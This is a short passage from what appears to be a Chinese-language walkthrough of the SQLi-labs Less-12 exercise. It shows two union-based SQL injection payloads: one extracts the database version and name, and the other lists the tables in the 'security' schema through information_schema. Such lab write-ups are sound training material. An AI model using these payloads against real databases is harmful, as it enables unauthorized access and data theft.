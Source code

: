 

+ 注入语句爆破版本号和数据库名

~~~ shell
1") union select version(),database() #
~~~

![Less-12_4](./img/Less-12_4.PNG)



+ 注入语句爆破数据表

~~~ shell
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security' #
~~~
